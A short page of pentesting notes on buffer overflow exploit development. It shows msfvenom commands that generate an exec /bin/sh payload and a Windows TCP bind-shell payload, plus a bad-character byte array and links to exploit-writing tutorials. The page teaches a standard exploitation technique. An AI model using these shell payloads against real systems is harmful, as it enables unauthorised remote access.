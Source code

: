 ## Generating shellcode

As usual, we can generate shellcode using `msfvenom`. Some useful shellcode we can use include:

```text
# Execute a command
msfvenom -p linux/x86/exec CMD=/bin/sh -f python -b '\x00\x40\x0a\x0d'

# Local TCP bind_shell
msfvenom -p windows/shell_bind_tcp -f python -b '\x00\x40\x0a\x0d'
```


# Samples

## Checking for bad characters

```python
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

```

These can be sent after EIP. Follow the ESP register to look for any that appear missing. These will be potential bad characters and should be avoided. \x00 is a null and should be avoided.


# References

{% embed url="https://veteransec.com/2018/09/10/32-bit-windows-buffer-overflows-made-easy/" %}

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/" %}
